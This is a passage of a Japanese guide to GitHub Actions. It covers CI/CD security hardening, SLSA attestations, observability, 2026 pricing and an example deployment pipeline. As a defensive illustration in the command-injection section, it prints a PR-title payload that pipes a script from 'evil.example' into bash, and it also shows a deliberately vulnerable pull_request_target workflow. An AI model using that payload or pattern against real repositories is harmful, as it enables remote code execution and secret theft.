| 2026年1月 | Shai-Huludワーム | セルフホストランナーとGitHub Discussionsをバックドアのチャネルとして悪用 |
| 2026年3月 | `trivy-action`のフォースプッシュ改ざん | 76個中75個のバージョンタグが書き換えられ、実行したパイプラインからシークレットが窃取された。窃取された認証情報は下流のPyPIパッケージ(LiteLLM含む)の侵害にも連鎖した |
| 2026年3月 | Axiosの悪意あるバージョン公開 | `1.14.1`/`0.30.4`が約3時間だけ公開され、依存関係を実行時に解決するパイプラインに影響 |

これらの事例に共通するのは、「可変な参照(タグ・ブランチ)への依存」が侵害の入口になっている点である。<cite index="45-1">攻撃と検知の間の窓は数日ではなく数時間であることが多い</cite>という指摘は、日常的な監視体制の重要性を示している。

### 12.3 `pull_request_target`と"Pwn Request"

<cite index="72-1">`pull_request_target`は、ワークフローおよび明示的な`ref`指定のない`actions/checkout`呼び出しが、プルリクエストではなくベースリポジトリの既定ブランチから取得される、という重要かつ見落とされがちな変更を加えるイベントである</cite>。この設計により、ベースブランチの信頼済みコードだけが実行されるため、シークレットと読み書き可能なトークンを安全に付与できる、というのが本来の意図である。

しかし<cite index="72-1">開発者がこの既定動作を上書きし、フォークのコードを実行するようにしてしまうと危険になる</cite>。典型的な脆弱パターンは以下の通り。

```yaml
# 危険な例: フォークのPRヘッドを明示的にチェックアウトしている
on: pull_request_target
jobs:
  build:
    runs-on: ubuntu-latest
    permissions:
      contents: write
    steps:
      - uses: actions/checkout@v6
        with:
          ref: ${{ github.event.pull_request.head.sha }}   # 危険: フォークの未検証コードを取得
      - run: make test   # ベースリポジトリの権限で攻撃者のコードを実行してしまう
```

<cite index="70-1">このように`pull_request_target`を使うワークフローがフォークからコードをチェックアウトすると、すべてのシークレットと高権限のGITHUB_TOKENが露出し、深刻なセキュリティリスクを生む</cite>。実際に、著名なオープンソースプロジェクトを含む多数のリポジトリでこのパターンによる侵害が確認されている。



**対策の指針(意思決定順):**

1. シークレットや書き込み権限が不要なら**`pull_request`を使う**(最優先の選択肢)。
2. どうしても`pull_request_target`が必要な場合、フォークのコードを明示的にチェックアウトしない。ラベリングやコメント投稿などシークレット不要な処理に限定する。
3. フォークのコードに対してテストや認証済みチェックを実行したい場合は、`pull_request`(非特権)でテストし、その完了を`workflow_run`(特権)で検知して後続処理を行う、という権限分離パターンに再設計する。
4. `actions/checkout` v7以降では、`pull_request_target`および`workflow_run`(トリガー元が`pull_request*`の場合)においてフォークPRのヘッド/マージコミットの取得が既定でブロックされるようになった。意図的にオプトアウトする場合は、それが重大なセキュリティ判断であることを理解した上で行う。
5. 2025年12月8日以降、`pull_request_target`はワークフロー定義自体が常に既定ブランチから読み込まれるよう変更され、非既定ブランチに残る脆弱なワークフロー定義が悪用されるリスクは軽減された。ただし、フォークPRのヘッドを明示的に実行する設計そのものは依然として危険である。

### 12.4 セルフホストランナーのリスク

<cite index="41-1">GitHubホスト型ランナーはエフェメラルかつ隔離された仮想マシン内でコードを実行するため、永続的に侵害される方法がない一方、セルフホストランナーはエフェメラルなクリーン仮想マシンで実行される保証がなく、ワークフロー内の信頼できないコードによって永続的に侵害される可能性がある</cite>。そのため<cite index="41-1">セルフホストランナーはパブリックリポジトリではほぼ使うべきではない。誰でもプルリクエストを送ってリポジトリに対して実行環境を侵害できてしまうためである</cite>。

**セルフホストランナーを使う場合の必須対策:**

- パブリックリポジトリでは使用しない。プライベートリポジトリでも、フォーク経由でPRを送れるユーザー全員がリスク要因になり得ることを理解する。
- **エフェメラル(使い捨て)モード**で運用し、ジョブ実行後に環境を破棄する。
- **Runner Groups**でランナーを信頼レベル・プロジェクト・チーム単位に分離し、侵害の影響範囲を限定する。
- ランナーマシン上に長期的な機密情報(SSHキー・クラウドのメタデータサービスへのネットワークアクセス等)を置かない。
- ネットワークegressの監視(例: Harden-Runnerのようなツールでegressポリシーを監査・ブロックする)を行う。
- ホスト単位のテレメトリ(プロセス実行ログ・パッケージインストール履歴)を、ランナー自体とは別の場所へ即座に転送する。侵害後にランナー上のログが改ざんされる前提で設計する。

### 12.5 コマンドインジェクション対策

PRタイトル・Issue本文・コメントなど、攻撃者が制御可能な文字列を`run:`ブロックにそのまま埋め込むと、シェルコマンドインジェクションを許してしまう。

```yaml
# 危険な例: PRタイトルを直接シェルに展開している
- run: echo "Building ${{ github.event.pull_request.title }}"
```

PRタイトルに`"; curl http://evil.example/steal.sh | bash #`のような文字列が入っていた場合、意図しないコマンドが実行され得る。**対策は、外部入力を環境変数経由で渡し、シェル展開ではなく変数参照として扱うこと**である。

```yaml
# 安全な例: 環境変数として渡してからシェル内で参照する
- env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: echo "Building $PR_TITLE"
```

**参考URL:**

- <https://docs.github.com/en/actions/reference/security/secure-use>
- <https://docs.github.com/en/actions/reference/security/securely-using-pull_request_target>
- <https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/>
- <https://github.blog/changelog/2026-06-18-safer-pull_request_target-defaults-for-github-actions-checkout/>
- <https://www.sysdig.com/blog/how-threat-actors-are-using-self-hosted-github-actions-runners-as-backdoors>
- <https://www.sysdig.com/blog/insecure-github-actions-found-in-mitre-splunk-and-other-open-source-repositories>
- <https://www.wiz.io/blog/github-actions-security-guide>
- <https://orca.security/resources/blog/pull-request-nightmare-part-2-exploits/>

---

## 13. サプライチェーンセキュリティ: Artifact AttestationsとSLSA

### 13.1 SLSAフレームワークとGitHubの対応レベル

<cite index="59-1">SLSAフレームワークはソフトウェアサプライチェーンのセキュリティを評価する業界標準であり、各レベルはサプライチェーンの安全性・信頼性の度合いを段階的に表す</cite>。GitHubのArtifact Attestations機能は、追加の設定なしでSLSA v1.0 Build Level 2を満たし、再利用可能なワークフローと組み合わせることでLevel 3まで引き上げられる。

| SLSAレベル | 要件の概要 | GitHub Actionsでの実現方法 |
|---|---|---|
| Build Level 1 | ビルドプロセスの来歴(provenance)を記録する | ビルドログの保存 |
| Build Level 2 | 改ざん耐性のあるビルドサービスで来歴を生成する | `actions/attest`によるArtifact Attestations |
| Build Level 3 | ユーザー定義のビルドステップから署名鍵material を隔離する | 再利用可能なワークフローでビルドと署名を分離 |

### 13.2 Artifact Attestationsの実装

<cite index="68-1">アーティファクト(バイナリやコンテナイメージなど)のビルド来歴を確立するアテステーションを生成するには、ワークフローに適切なパーミッションを設定し、`attest`アクションを使うステップを追加する</cite>。

```yaml
permissions:
  id-token: write
  contents: read
  attestations: write

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v6
      - run: ./build.sh   # bin/my-artifact.tar.gz を生成する想定
      - name: Generate artifact attestation
        uses: actions/attest-build-provenance@v3
        with:
          subject-path: 'bin/my-artifact.tar.gz'
```

生成されたアテステーションは、公開リポジトリではSigstoreのパブリックグッドインスタンスを使い、透明性ログに記録される。プライベートリポジトリではGitHub独自のSigstoreインスタンスが使われ、透明性ログへの記録は行われない(GitHub Actionsとのみフェデレーションする)。

### 13.3 消費側での検証

配布されたソフトウェアがどこでどのようにビルドされたかを検証するには、GitHub CLIを使う。

```bash
gh attestation verify PATH/TO/ARTIFACT-BINARY \
  -R ORGANIZATION_NAME/REPOSITORY_NAME
```

<cite index="61-1">アテステーションはインターネット接続なしでも検証できる</cite>ため、エアギャップ環境やKubernetesのAdmission Controller連携にも組み込みやすい。

<cite index="59-1">アテステーション自体はアーティファクトが安全であることを保証するものではなく、ソースコードとビルド手順への追跡可能性を提供するに過ぎない</cite>点は重要な注意点である。ポリシー基準の策定と、それに基づくリスク判断は利用者側の責任として残る。

**参考URL:**

- <https://docs.github.com/en/actions/concepts/security/artifact-attestations>
- <https://docs.github.com/actions/security-for-github-actions/using-artifact-attestations/using-artifact-attestations-to-establish-provenance-for-builds>
- <https://docs.github.com/actions/security-guides/using-artifact-attestations-and-reusable-workflows-to-achieve-slsa-v1-build-level-3>
- <https://github.com/actions/attest-build-provenance>

---

## 14. モニタリング・デバッグ・可観測性

### 14.1 Job Summaries

`$GITHUB_STEP_SUMMARY`に書き込んだMarkdownは、ワークフロー実行結果のサマリーページにそのまま表示される。テスト結果やデプロイ情報を見やすく提示するのに使う。

```yaml
- name: Generate test summary
  run: |
    echo "## テスト結果" >> "$GITHUB_STEP_SUMMARY"
    echo "" >> "$GITHUB_STEP_SUMMARY"
    echo "| スイート | 成功 | 失敗 | スキップ |" >> "$GITHUB_STEP_SUMMARY"
    echo "|---|---|---|---|" >> "$GITHUB_STEP_SUMMARY"
    echo "| Unit | 142 | 0 | 3 |" >> "$GITHUB_STEP_SUMMARY"
    echo "| Integration | 58 | 2 | 0 |" >> "$GITHUB_STEP_SUMMARY"
```

<cite index="97-1">ジョブが完了すると、そのジョブ内の全ステップのサマリーがまとめられ、ワークフロー実行のサマリーページに1つにまとめて表示される</cite>。<cite index="97-1">サマリーに含まれる可能性のあるシークレットは自動的にマスクされる</cite>ため、意図せず機密情報が露出するリスクは一定程度緩和されている(それでも構造化データの直接貼り付けは避けるべきである)。ステップごとの上限は1MiBである。

### 14.2 ワークフローコマンド

`::notice::` / `::warning::` / `::error::`は、ログにアノテーションを作成し、特定のファイル・行に関連付けることができる。`::group::`/`::endgroup::`はログを折りたたみ可能なセクションに分割する。

```yaml
- name: Lintエラーをアノテーションとして表示
  run: |
    echo "::error file=src/app.ts,line=42::型エラーが検出されました"
```

シークレットではない機密値をマスクする場合は`::add-mask::`を使う。

```yaml
- run: |
    TOKEN=$(openssl rand -hex 32)
    echo "::add-mask::$TOKEN"
```

### 14.3 デバッグロギング

通常のログで原因が特定できない場合、リポジトリシークレット`ACTIONS_STEP_DEBUG`を`true`に設定するか、失敗したワークフロー実行を「デバッグロギングを有効にして再実行」することで、詳細なステップデバッグログを取得できる。

```yaml
- name: コンテキストをダンプ(調査用、恒久的には残さない)
  env:
    GITHUB_CONTEXT: ${{ toJson(github) }}
  run: echo "$GITHUB_CONTEXT"
```

失敗時のみアーティファクトとしてログを保存しておくと、後から詳細に調査できる。

```yaml
- name: Run tests
  id: test
  continue-on-error: true
  run: npm test 2>&1 | tee test-output.log

- name: Upload logs on failure
  if: always()
  uses: actions/upload-artifact@v4
  with:
    name: test-logs
    path: test-output.log
    retention-days: 5
```

**参考URL:**

- <https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-commands>
- <https://github.blog/news-insights/product-news/supercharging-github-actions-with-job-summaries/>

---

## 15. コストと料金の最新動向(2026年)

2026年1月1日、GitHubホスト型ランナーの料金体系が改定され、ランナーサイズによって最大39%の価格引き下げが実施された。この改定には、新設された1分あたり0.002ドルの「Actionsクラウドプラットフォーム料金」があらかじめ含まれている。

一方、同時に発表されていた「2026年3月1日からセルフホストランナーにも同料金を課金する」という変更は、コミュニティからの強い反発を受けて**延期(再評価のため一時見送り)**となった。GitHub公式は「計画段階でより多くの声を取り入れるべきだった」と説明しており、本ガイド執筆時点でセルフホストランナーの利用自体には引き続き当該プラットフォーム料金は課金されていない。パブリックリポジトリでの標準ランナー利用(ホスト型・セルフホスト型とも)は引き続き無料である。GitHub Enterprise Serverの料金体系はこの変更の影響を受けない。

**コスト最適化の実践ポイント:**

- [6章](#6-依存関係のキャッシュとアーティファクト管理)のキャッシュ戦略で不要な再ビルドを削減する。
- [7章](#7-並行実行制御concurrency)の`concurrency`で、古いPR実行を自動キャンセルし無駄な実行を止める。
- パスフィルタ(`paths-ignore`)でドキュメントのみの変更ではCIを走らせない。
- アーティファクトの`retention-days`を短く設定し、ストレージコストを抑える。
- 影響を受けるパッケージ/ディレクトリのみを対象にするアフェクテッド検出(monorepoの場合)で、実行対象ジョブ数自体を削減する。

なお、料金・課金の詳細は変更される可能性が高いため、実際の予算計画を立てる際は必ずGitHub公式の最新のドキュメントを確認することを推奨する。

**参考URL:**

- <https://github.com/resources/insights/2026-pricing-changes-for-github-actions>
- <https://github.blog/changelog/2025-12-16-coming-soon-simpler-pricing-and-a-better-experience-for-github-actions/>
- <https://docs.github.com/en/billing/reference/actions-runner-pricing>

---

## 16. 実践例: エンドツーエンドCI/CDパイプライン

これまでの章で扱った要素(マトリックス・キャッシュ・OIDC・環境保護・Attestations)を組み合わせた、実務に近いパイプライン例を示す。

```yaml
name: CI/CD Pipeline

on:
  push:
    branches: [main]
  pull_request:
    branches: [main]

permissions:
  contents: read

concurrency:
  group: pipeline-${{ github.ref }}
  cancel-in-progress: true

jobs:
  test:
    strategy:
      fail-fast: false
      matrix:
        node-version: [20, 22]
    runs-on: ubuntu-latest
    permissions:
      contents: read
    steps:
      - uses: actions/checkout@v6
      - uses: actions/setup-node@v4
        with:
          node-version: ${{ matrix.node-version }}
          cache: npm
      - run: npm ci
      - run: npm test

  build:
    needs: test
    runs-on: ubuntu-latest
    permissions:
      contents: read
      id-token: write
      attestations: write
    outputs:
      artifact-name: dist
    steps:
      - uses: actions/checkout@v6
      - uses: actions/setup-node@v4
        with:
          node-version: '22'
          cache: npm
      - run: npm ci && npm run build
      - uses: actions/upload-artifact@v4
        with:
          name: dist
          path: dist/
          retention-days: 14
      - name: Generate build provenance
        uses: actions/attest-build-provenance@v3
        with:
          subject-path: 'dist/**'

  deploy:
    needs: build
    if: github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    environment:
      name: production
      url: https://example.com
    permissions:
      contents: read
      id-token: write   # OIDC用
    steps:
      - uses: actions/download-artifact@v4
        with:
          name: dist
          path: dist/
      - name: Configure AWS credentials via OIDC
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789012:role/GitHubActionsDeployRole
          aws-region: ap-northeast-1
      - run: aws s3 sync dist/ s3://my-production-bucket --delete
      - name: Write deployment summary
        run: |
          echo "## デプロイ完了" >> "$GITHUB_STEP_SUMMARY"
          echo "- コミット: ${{ github.sha }}" >> "$GITHUB_STEP_SUMMARY"
          echo "- 実行者: ${{ github.actor }}" >> "$GITHUB_STEP_SUMMARY"
```



このパイプラインは、テスト→ビルド→(承認を伴う)デプロイという典型的な流れの中に、最小権限のパーミッション設定・OIDCによるキーレス認証・ビルド来歴の証明・環境保護ルールを組み込んだ構成になっている。

---

## 17. まとめ: プロダクションレディ・チェックリスト

- [ ] ワークフロー全体の`permissions`をread-only(または`{}`)にし、必要なジョブにのみ権限を追加しているか
- [ ] サードパーティアクションはフルコミットSHAでピン留めし、Dependabotで更新を自動化しているか
- [ ] `pull_request_target`を使う場合、フォークのコードを明示的にチェックアウトしていないか(または権限分離パターンに再設計したか)
- [ ] クラウド認証はOIDCベースの短命トークンに移行し、長期アクセスキーを避けているか
- [ ] 本番デプロイに対応するEnvironmentにRequired Reviewers・デプロイブランチ制限を設定しているか
- [ ] セルフホストランナーをパブリックリポジトリで使っていないか、Runner Groupsで信頼境界を分離しているか
- [ ] リリース成果物にArtifact Attestations(ビルド来歴)を付与しているか
- [ ] キャッシュキーに依存関係ファイルのハッシュを含め、`concurrency`で無駄な実行を抑止しているか
- [ ] 失敗時のログ・アーティファクトを保存し、Job SummaryとGitHub CLIでの調査導線を整えているか
- [ ] コストの前提(料金・無料枠)は必ずGitHub公式の最新情報で確認しているか

---

## 18. 参考資料

本ガイドの各項目は、以下の一次情報源・信頼できる技術情報源を参照して作成した。

**GitHub公式ドキュメント・ブログ**

- GitHub Actions ドキュメントトップ: <https://docs.github.com/en/actions>
- GitHub Actionsを理解する: <https://docs.github.com/en/actions/get-started/understand-github-actions>
- クイックスタート: <https://docs.github.com/en/actions/get-started/quickstart>
- ワークフローとアクションの概念: <https://docs.github.com/en/actions/concepts/workflows-and-actions/workflows>
- ワークフロー構文リファレンス: <https://docs.github.com/actions/using-workflows/workflow-syntax-for-github-actions>
- ワークフロー・アクションのリファレンス全体: <https://docs.github.com/en/actions/reference/workflows-and-actions>
- ワークフローの再利用: <https://docs.github.com/en/actions/concepts/workflows-and-actions/reusing-workflow-configurations>
- トリガーイベント一覧: <https://docs.github.com/en/actions/using-workflows/events-that-trigger-workflows>
- 並行実行・マトリックスの例: <https://docs.github.com/en/actions/examples/using-concurrency-expressions-and-a-test-matrix>
- デプロイと環境: <https://docs.github.com/en/actions/reference/workflows-and-actions/deployments-and-environments>
- 環境を使ったデプロイ管理: <https://docs.github.com/actions/deployment/targeting-different-environments/using-environments-for-deployment>
- デプロイ制御(GitHub Actionsでのデプロイ): <https://docs.github.com/en/actions/how-tos/deploy/configure-and-manage-deployments/control-deployments>
- GITHUB_TOKENの権限制御: <https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/controlling-permissions-for-github_token>
- リポジトリのActions設定管理: <https://docs.github.com/en/repositories/managing-your-repositorys-settings-and-features/enabling-features-for-your-repository/managing-github-actions-settings-for-a-repository>
- OpenID Connect概念: <https://docs.github.com/en/actions/concepts/security/openid-connect>
- クラウドプロバイダーでのOIDC設定: <https://docs.github.com/actions/deployment/security-hardening-your-deployments/configuring-openid-connect-in-cloud-providers>
- OIDCリファレンス(Enterprise Cloud): <https://docs.github.com/en/enterprise-cloud@latest/actions/reference/security/oidc>
- セキュアな利用リファレンス: <https://docs.github.com/en/actions/reference/security/secure-use>
- pull_request_targetを安全に使う: <https://docs.github.com/en/actions/reference/security/securely-using-pull_request_target>
- Artifact Attestationsの概念: <https://docs.github.com/en/actions/concepts/security/artifact-attestations>
- ビルド来歴のためのArtifact Attestations: <https://docs.github.com/actions/security-for-github-actions/using-artifact-attestations/using-artifact-attestations-to-establish-provenance-for-builds>
- SLSA Build Level 3達成のためのガイド: <https://docs.github.com/actions/security-guides/using-artifact-attestations-and-reusable-workflows-to-achieve-slsa-v1-build-level-3>
- ワークフローコマンド: <https://docs.github.com/en/actions/reference/workflows-and-actions/workflow-commands>
- Actionsランナー料金リファレンス: <https://docs.github.com/en/billing/reference/actions-runner-pricing>
- GitHub Actions製品ページ(日本語): <https://github.com/features/actions?locale=ja>
- attest-build-provenanceアクション: <https://github.com/actions/attest-build-provenance>
- Job Summaries発表記事: <https://github.blog/news-insights/product-news/supercharging-github-actions-with-job-summaries/>
- GITHUB_TOKENデフォルト権限変更の告知: <https://github.blog/changelog/2023-02-02-github-actions-updating-the-default-github_token-permissions-to-read-only/>
- pull_request_targetのcheckout保護強化: <https://github.blog/changelog/2026-06-18-safer-pull_request_target-defaults-for-github-actions-checkout/>
- 過剰な権限を検出するツールの紹介: <https://github.blog/security/new-tool-to-secure-your-github-actions/>
- 2026年GitHub Actions料金改定: <https://github.com/resources/insights/2026-pricing-changes-for-github-actions>
- セルフホストランナー課金の延期告知: <https://github.blog/changelog/2025-12-16-coming-soon-simpler-pricing-and-a-better-experience-for-github-actions/>
- GitHub for Beginners: Actions入門: <https://github.blog/developer-skills/github/github-for-beginners-getting-started-with-github-actions/>
- GitHub Security Lab: Pwn Requestsを防ぐ: <https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/>

**セキュリティベンダー・技術記事(信頼できる二次情報源)**

- Sysdig: セルフホストランナーをバックドアとして悪用する手口: <https://www.sysdig.com/blog/how-threat-actors-are-using-self-hosted-github-actions-runners-as-backdoors>
- Sysdig: MITRE・Splunk等で見つかった安全でないGitHub Actions: <https://www.sysdig.com/blog/insecure-github-actions-found-in-mitre-splunk-and-other-open-source-repositories>
- Wiz: GitHub Actionsハードニングガイド(最近の攻撃事例からの教訓): <https://www.wiz.io/blog/github-actions-security-guide>
- Orca Security: pull_request_nightmare Part 1: <https://orca.security/resources/blog/pull-request-nightmare-github-actions-rce/>
- Orca Security: pull_request_nightmare Part 2: <https://orca.security/resources/blog/pull-request-nightmare-part-2-exploits/>
- Spotipy社のセキュリティアドバイザリ(pull_request_target実例): <https://github.com/spotipy-dev/spotipy/security/advisories/GHSA-h25v-8c87-rvm8>
- 再利用可能なワークフローと複合アクションの組織運用に関するコミュニティ議論: <https://github.com/orgs/community/discussions/171037>
